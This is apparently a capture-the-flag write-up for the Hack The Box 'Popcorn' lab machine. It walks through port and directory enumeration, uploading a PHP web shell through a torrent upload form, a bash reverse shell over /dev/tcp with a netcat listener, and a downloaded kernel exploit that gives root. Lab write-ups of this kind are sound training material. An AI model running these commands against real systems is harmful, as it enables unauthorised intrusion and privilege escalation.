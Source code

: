 # Popcorn - Machine

> [!note]
> IP 10.10.10.6
> Windows Medium

## Contents
- [Tools](#tools)
- [Enumeration](#enumeration)
- [Exploitation](#exploitation)
- [Priviledge Escalation](#priviledge-escalation)

## Tools
- Nmap
- gobuster / dirb / dirbuster
- Burp Suite Community Edition / OWASP ZAP
- NetCat
- linux-exploit-suggester.sh /SearchExploit (OFFSEC exploitDB) / Google

## Enumeration

- Nmap with `nmap -A 10.10.10.6` gives two open ports, port 22 for ssh and 80 for http.
- On port 80 running gobuster with `gobuster dir -u http://10.10.10.6 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 40` gives some links as output. Output shows some links, `/test`, `/index`, `/torrent` etc.
- `/test` page shows `phpinfo` allowed file upload.
- On `/torrent` page we can see sign up and log in option. 


## Exploitation

- After loggin in we can use the upload option. During uploading torrent file, we can modify filename and filecontent to php shell code with burp suite or OWASP ZAP.
- We can goto `/torrent/upload` directory to get our file and simple `curl http://10.10.10.6/torrent/upload/3like1share3folllow3subscribe7.php?test=whoami` will execute command on the server.
- Running netcat client on host with `nc -lvnp 1337` and command `curl http://10.10.10.6/torrent/upload/0ba973670d943861fb9453eecefd3bf7d3054713.php --data-urlencode "test=bash -c 'bash -i >& /dev/tcp/10.10.14.100/1337 0>&1'"` will give us shell as user `www-data`.
- Now we can simply get `user.txt` as `www-data` for user `george` with command `cat /home/george/user.txt`.
  ```bash
  www-data@popcorn: ls /home
  george
  www-data@popcorn: cat /home/george/user.txt
  userflaglikesharesubscribefollow
  ```

## Priviledge Escalation

- After importing linux-exploit-suggester.sh we can get a lot of priviledge escalation exploits.
- One of them is full-nelson (http://vulnfactory.org/exploits/full-nelson.c). After importing it to the machine, we can compile it with `gcc full-nelson.c -o full-nelson`.
- Then We get root and root flag.
  ```bash
  www-data@popcorn:tmp$ gcc full-nelson.c - exploit
  gcc full-nelson.c - exploit
  www-data@popcorn:tmp$ chmod +x exploit
  chmod +x exploit
  www-data@popcorn:tmp$ ./exploit
  www-data@popcorn:tmp$ ./exploit
  www-data@popcorn:tmp$ ./exploit
  ./exploit
  id
  uid=0(root) gid=0(root)
  cat /root/root.txt
  rootflaglikesharesubscribefollow
  ```
- Also dirtycow, motd and many other exploits are possible. As the server kernel version is too old.

Author: [Zishan Ahamed Thandar](https://ZishanAdThandar.github.io)
